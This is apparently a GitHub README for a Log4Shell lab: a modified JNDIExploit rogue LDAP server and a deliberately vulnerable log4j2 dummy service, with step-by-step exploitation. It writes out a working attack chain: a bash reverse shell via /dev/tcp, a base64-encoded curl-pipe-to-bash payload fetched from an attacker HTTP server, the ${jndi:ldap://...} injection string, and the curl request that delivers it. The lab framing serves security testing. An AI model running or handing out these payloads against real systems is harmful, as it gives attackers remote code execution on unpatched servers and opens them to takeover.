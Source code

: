 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1).

### clone the repo 

```
git clone https://github.com/twelvesec/RogueLDAP.git
```

### Build with Maven

In order to build the ```RogueLDAP``` server run the following commands 

```
cd RogueLDAP/RogueLDAP
mvn clean package
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the ```Log4Shell``` vulnerability using the ```RogueLDAP``` server.  

### Build with Docker

From cli run the following command to build the ```logging-log4j2``` application 

```
cd RogueLDAP/logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
```

### Build with Maven

```
cd RogueLDAP/logging-log4j2
mvn clean package  
```

## Setting up the Environment and run the Exploit

--------

### Setup Instructions 

In order to setup the environment and run the exploit the following steps should be followed 

1. Open a new terminal window and run the ```RogueLDAP``` server at the attacking machine

```
cd RogueLDAP/RogueLDAP/target
java -jar RogueLDAP-1.4-SNAPSHOT.jar -i <YOUR-IP-ADDRESS>
```

2. Open a new terminal window and run the vulnerable ```logging-log4j2``` application at the target machine


>> ### Run with Docker 
 
 ```
 docker run -p 8080:8080 logging-log4j2-vuln
 ```
 
>> ### Run with Java 
 
 ```
 cd RogueLDAP/RogueLDAP/target
 java -Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector -jar logging-log4j2-1.0.jar
 
```

3. create a folder called shells at a preffered location at the attacking machine

```
mkdir shells 
cd shells 
```

4. Inside the shells folder create an ```index.html``` file 

```
touch index.html 
```

5. Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to your environment

``` 
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.6/8082 0>&1" &
``` 

6. convert the payload ```$(curl 192.168.1.6:8085|bash)``` in base64 format as seen below (change the IP address with the one that suits to your environment) 

```
JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=
```

7. In order to perform a JNDI LDAP query the following payload will be used (change the IP address with the one that suits to your environment) 

```
${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}
``` 

8. Now open a new terminal window and inside the shells directory run the following command in order to start a python simple HTTP server

```
cd shells 
python3 -m http.server 8085
```

9. Now that the ```logging-log4j2``` application runs, open a new terminal window and run the ```curl``` command line tool in order to send the jndi payload as shown below 
(change the IP address with the one that suits to your environment) 

```
curl -s -X POST http://192.168.1.6:8080/lol -H "Content-type:application/json" -d "{\"vuln\":\"\${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}\"}"
```

------------

### _Proof of Concept_

The full log4shell exploitation can be seen below  

![alt text](https://github.com/twelvesec/RogueLDAP/blob/main/images/log4shell-expl.gif)


------------




